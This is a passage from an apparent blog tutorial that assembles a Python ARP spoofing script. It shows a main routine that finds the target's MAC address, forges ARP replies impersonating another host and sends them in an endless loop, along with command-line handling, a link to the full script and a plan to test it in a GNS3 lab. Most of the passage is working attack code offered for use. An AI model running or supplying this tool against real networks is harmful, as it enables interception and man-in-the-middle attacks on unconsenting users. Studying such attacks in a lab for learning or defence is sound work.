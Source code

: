 
def find_mac_by_ip(ip):
    fill_arp_cache_with(ip)
    mac = read_mac_from_arp_cache(ip)
    return mac
{% endhighlight %}

## Putting all the pieces together

All that's left to do is to read the interface name, ip of our target and ip of the host we want to impersonate from command line arguments and use it to create and send ARP replies:

{% highlight python %}
# ...

import sys

# ...

def main(interface, impersonated_host_ip, poisoned_host_ip):
    poisoned_host_mac = find_mac_by_ip(poisoned_host_ip)
    our_mac = getnode()

    packet = create_arp_packet(sender_ip=impersonated_host_ip,
                               target_ip=poisoned_host_ip,
                               sender_mac=our_mac,
                               target_mac=poisoned_host_mac)
    
    while True:
        send(packet, interface)


def print_help():
    doc = '''
        Usage:
          {} INTERFACE IMPERSONATED_HOST_IP POISONED_HOST_IP
    '''.format(__file__)
    print(inspect.cleandoc(doc))


if __name__ == '__main__':
    try:
        (script_name, interface, impersonated_host_ip, poisoned_host_ip) = sys.argv
    except ValueError:
        print_help() 
        sys.exit(1)

    try:
        main(interface, impersonated_host_ip, poisoned_host_ip)
    except KeyboardInterrupt:
        print('\nDone.')
        sys.exit(0)
{% endhighlight %}

Full script can be found [here](https://github.com/searabbitx/arp-spoofer/blob/master/arp_spoofer.py).

## What's next?

Ok, that's it for the first part. Next time we are going to build the lab in [GNS3](https://gns3.com/) network simulator and test our script.

Happy spoofing!

